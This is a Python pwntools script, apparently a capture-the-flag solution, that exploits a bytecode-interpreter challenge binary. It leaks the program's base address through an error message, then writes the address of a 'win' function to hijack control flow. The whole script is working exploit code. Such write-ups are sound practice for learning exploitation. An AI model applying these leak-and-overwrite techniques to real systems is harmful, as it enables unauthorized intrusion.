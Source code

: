 ```py
INSTRUCTION_TURNLEFT = 1
INSTRUCTION_TURNRIGHT = 2
INSTRUCTION_INFECT = 3
INSTRUCTION_SKIP = 4
INSTRUCTION_HALT = 5
INSTRUCTION_JUMP = 6
INSTRUCTION_JUMP_IF_NOT_NEXT_IS_EMPTY = 7
INSTRUCTION_JUMP_IF_NOT_NEXT_IS_NOT_EMPTY = 8
INSTRUCTION_JUMP_IF_NOT_NEXT_IS_WALL = 9
INSTRUCTION_JUMP_IF_NOT_NEXT_IS_NOT_WALL = 10
INSTRUCTION_JUMP_IF_NOT_NEXT_IS_FRIEND = 11
INSTRUCTION_JUMP_IF_NOT_NEXT_IS_NOT_FRIEND = 12
INSTRUCTION_JUMP_IF_NOT_NEXT_IS_ENEMY = 13
INSTRUCTION_JUMP_IF_NOT_NEXT_IS_NOT_ENEMY = 14
INSTRUCTION_JUMP_IF_NOT_RANDOM = 15
INSTRUCTION_JUMP_IF_NOT_TRUE = 16


def create_io() -> tubes.tube.tube:
    if not local:
        io: tubes.tube.tube = remote(remote_addr, int(remote_port))
    elif debug:
        if radare:
            io: tubes.tube.tube = process(elf_name, env={"LD_PRELOAD": libc_name})
            util.proc.wait_for_debugger(util.proc.pidof(io)[0])
        else:
            io: tubes.tube.tube = gdb.debug(
                elf_name, script, env={"LD_PRELOAD": libc_name}
            )
    else:
        io: tubes.tube.tube = process(elf_name, env={"LD_PRELOAD": libc_name})
    return io


def solve():
    global t
    sa = lambda x, y: t.sendafter(x, y)
    sla = lambda x, y: t.sendlineafter(x, y)

    sla(b"bytecode?\n> ", i2b(3))
    t.sendline(i2b(INSTRUCTION_HALT))
    t.sendline(i2b(INSTRUCTION_SKIP))
    t.sendline(i2b(255))
    buf = t.recvuntil(b"Invalid instruction")[: -len("Invalid instruction")]
    buf = buf[buf.find(b"SKIP") + 5 :]
    pie_base = s2u64(buf) - 0x134D
    success(f"{pie_base=:x}")
    assert not pie_base & 0xFFF

    sla(b"bytecode?\n> ", i2b(4))
    t.sendline(i2b(INSTRUCTION_SKIP))
    t.sendline(i2b(INSTRUCTION_SKIP))
    t.sendline(i2b(0xD8 // 8))
    t.sendline(i2b(pie_base + elf.sym["win"]))

    sla(b"bytecode?\n> ", i2b(1))
    t.sendline(i2b(INSTRUCTION_JUMP_IF_NOT_NEXT_IS_EMPTY))

    t.interactive()


local = 0
debug = 0
```